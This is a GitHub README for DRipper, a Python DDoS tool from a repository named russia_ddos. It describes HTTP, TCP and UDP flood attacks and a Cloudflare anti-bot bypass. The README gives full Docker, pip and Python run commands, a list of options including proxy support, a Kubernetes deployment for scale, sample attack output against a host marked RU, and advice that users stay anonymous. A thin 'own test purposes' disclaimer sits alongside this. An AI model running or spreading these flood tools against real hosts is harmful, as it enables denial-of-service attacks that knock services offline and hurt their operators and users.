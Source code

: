 # DRipper

[![Build status][actions build badge]][actions build link]
[![Docker Pulls][docker pulls badge]][docker pulls link]
[![Docker Image Version (latest semver)][dockerhub badge]][dockerhub link]
[![License: MIT][license badge]][license link]

DESCRIPTION
-----------

This is reworked version of [DRipper](https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54).
This script support HTTP/TCP/UDP flood attack. We recommend using this script for your own test purposes in the local (on-premise) environment to improve your own web services against DDoS attacks.

## Prerequisites

- Python 3.9 or higher
- Docker (optional) if you'd like to run script with docker

## Features

### Attacks

- HTTP Flood - OSI Layer 7 method volumetric attack type
- HTTP Bypass - OSI Layer 7 method volumetric attack type with to bypass Cloudflare's anti-bot page (also known as "I'm Under Attack Mode", or IUAM)
- TCP Flood - OSI Layer 4 method volumetric attack type
- UDP Flood - OSI Layer 4 method volumetric attack type

### Other features

- Multiple targets support - the script can attack multiple targets at the same time
- Detailed statistics with deep attack log for better attack analysis during the attack
- Display average request rate and throughput
- Periodic checks of your public IP address to ensure your privacy and VPN connection survivability.
- Automatic and periodic checks for the availability of the attacked host
- Distributed statistics of the response code for the attacked host, which helps you to understand the effectiveness of attacks
- Detection of redirects and rate limits with alerts in the event log

## How it looks

```bash
──────────────────────────────────── Starting DRipper ────────────────────────────────────
[23:29:24] (1/5) Trying connect to www.localhost.orc:443...                services.py:108
──────────────────────────────────────────────────────────────────────────────────────────


                   ██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗
                   ██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║
                   ██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
                   ██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
                   ██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
                   ╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
                                                               v2.3.0

             It is the end user's responsibility to obey all applicable laws.
             It is just like a server testing script and Your IP is visible.
                           Please, make sure you are ANONYMOUS!

                        https://github.com/alexmon1989/russia_ddos

 ────────────────────────────────────────────────────────────────────────────────────────
  Description                         Status
 ────────────────────────────────────────────────────────────────────────────────────────
  Start Time, duration                2022-03-31 23:29:23 - 0:00:33
  Your Country, Public IP             DK   45.*.*.*
  Host Country, IP                    RU   127.0.0.1:443
  HTTP Request                        GET: https://www.localhost.orc:443/
  Attack Method                       http-flood
 ────────────────────────────────────────────────────────────────────────────────────────
  Threads                             2
  vCPU Count                          16
  Socket Timeout (seconds)            1
  Random Packet Length                False
 ────────────────────────────────────────────────────────────────────────────────────────
  CloudFlare DNS Protection           Not protected
  Last Availability Check             23:29:36
  Host Availability                   Accessible in 19 of 21 zones (90%)
 ────────────────────────────────────────────────────────────────────────────────────────
  HTTP-FLOOD Statistics
 ────────────────────────────────────────────────────────────────────────────────────────
  Sent Bytes @ AVG speed                  99.18 MB @ 2.92 MB/s
  Sent Packets @ AVG speed                 232,632 @ 6859 packets/s
  Connections                         success: 4, failed: 0, success rate: 100 %
 ────────────────────────────────────────────────────────────────────────────────────────
  Status Code Distribution            400: 100%
 ────────────────────────────────────────────────────────────────────────────────────────

  Events Log
 ────────────────────────────────────────────────────────────────────────────────────────
  [23:29:24]  info   thread-2    Set attack method to http-flood
  [23:29:24]  info   thread-1    Creating HTTP connection...
  [23:29:24]  info   thread-2    Creating HTTP connection...
  [23:29:25]  info   thread-5    Checking host statuses with check-host.net
  [23:29:34]  warn   thread-1    Checked Response status... 400: Bad Request
  [23:29:36]  info   thread-5    Host statuses updated with check-host.net
  [23:29:43]  warn   thread-2    Checked Response status... 400: Bad Request
  [23:29:54]  info   thread-2    Creating HTTP connection...
  [23:29:54]  warn   thread-1    Checked Response status... 400: Bad Request
  [23:29:54]  info   thread-1    Creating HTTP connection...

                            Press CTRL+C to interrupt process.

                                    #StandWithUkraine
```

## Usage

DRipper can run on Windows/Linux/macOS from command line.
We recommend to use `PowerShell` for Windows users to run the script, Linux/macOS users can use any shell.

Run `dripper --help` to see detailed params description.

```bash

██████╗ ██████═╗██╗██████╗ ██████╗ ███████╗██████═╗
██╔══██╗██╔══██║██║██╔══██╗██╔══██╗██╔════╝██╔══██║
██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝
                                           v2.0.0

It is the end user's responsibility to obey all applicable laws.
It is just like a server testing script and Your IP is visible.

Please, make sure you are ANONYMOUS!

Usage: dripper [options] arg

Options:
  -h, --help            show this help message and exit
  -s TARGET, --target=TARGET
                        Attack target in {scheme}://{hostname}[:{port}][{path}] format. Multiple targets allowed.
  -t THREADS_COUNT, --threads=THREADS_COUNT (default: 100)
                        Threads count.
  -r RANDOM_PACKET_LEN, --random_len=RANDOM_PACKET_LEN (default: 1)
                        Send random packets with random length. Turn on: 1, turn off: 0.
  -l MAX_RANDOM_PACKET_LEN, --max_random_packet_len=MAX_RANDOM_PACKET_LEN
                        Max random packets length (default: 48 for udp, 1000 for tcp, 0 for http).
  -m ATTACK_METHOD, --method=ATTACK_METHOD
                        Attack method: udp-flood, tcp-flood, http-flood. Could be auto-detected based on the scheme (protocol) of the target.
  -y FILENAME, --proxy_list=FILENAME
                        File (fs or http/https) with proxies in ip:port:username:password or ip:port line format.
                        Proxies will be ignored in udp attack!
                        Examples: proxylist.txt, https://proxies.com/fhjhajkdashdja
  -k PROXY_TYPE, --proxy_type=PROXY_TYPE (default socks5)
                        Type of proxy to work with. Supported types: socks5, socks4, http.
  -c STATE, --health_check=STATE (default: 1)
                        Controls health check availability. Turn on: 1, turn off: 0.
  -e HTTP_METHOD, --http_method=HTTP_METHOD (default: GET)
  -o SOCKET_TIMEOUT, --socket_timeout=SOCKET_TIMEOUT (default: 10 without proxy, 20 with proxy)
                        Timeout in seconds for socket connection is seconds.
  -d, --dry-run         Print formatted output without full script running.
  --log-size=LOG_SIZE   Set the Events Log history frame length.
  --log-level=EVENT_LEVEL
                        Log level for events board. Supported levels: info,
                        warn, error, none.

Example: dripper -s http://192.168.0.1 -t 100
```

## How to Run

#### Using Docker

```bash
# HTTP flood
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1:80 -t 100 -m http-flood
# or
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1:80 -t 100
# or even
docker run -it --rm alexmon1989/dripper:latest -s http://127.0.0.1 -t 100

# TCP flood
docker run -it --rm alexmon1989/dripper:latest -s tcp://127.0.0.1:80 -t 100 -l 2048

# UDP flood
docker run -it --rm alexmon1989/dripper:latest -s udp://127.0.0.1:80 -t 100 -l 2048
```

#### Directly with Python.

Ensure you have Python 3.9 or better installed. Then clone this repo and run DRipper.py with params you need

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# Install dependencies
python3 -m pip install --upgrade pip git+https://github.com/alexmon1989/russia_ddos.git
# Run script
dripper -s udp://127.0.0.1:80 -t 100 -r 1


# ===== Alternative variant =====

# Install python dependencies:
pip install -r requirements.txt
# Run script
python3 DRipper.py -s udp://127.0.0.1:80 -t 100 -r 1
```

#### Kubernetes

You can deploy and run DRipper in Kubernetes cluster using [kube-dripper][kube-dripper-link] terraform configuration.
For details - see the [README][kube-dripper-readme] from **kube-dripper** project.

## How to run unit tests

#### Prepare
```bash
pip install pytest
```

#### Run
```bash
pytest
```

# License

This project is distributed under the MIT License, see [LICENSE](./LICENSE) for more information.

<!-- External links -->
[actions build badge]: https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml/badge.svg
[actions build link]:  https://github.com/alexmon1989/russia_ddos/actions/workflows/build.yml

[docker pulls link]:   https://hub.docker.com/r/alexmon1989/dripper
[docker pulls badge]:  https://img.shields.io/docker/pulls/alexmon1989/dripper
[dockerhub link]:      https://hub.docker.com/r/alexmon1989/dripper/tags
[dockerhub badge]:     https://img.shields.io/docker/v/alexmon1989/dripper?label=DockerHub

[kube-dripper-link]:   https://github.com/denismakogon/kube-dripper
[kube-dripper-readme]: https://github.com/denismakogon/kube-dripper/blob/main/README.md

[license badge]:       https://img.shields.io/badge/License-MIT-yellow.svg
[license link]:        ./LICENSE
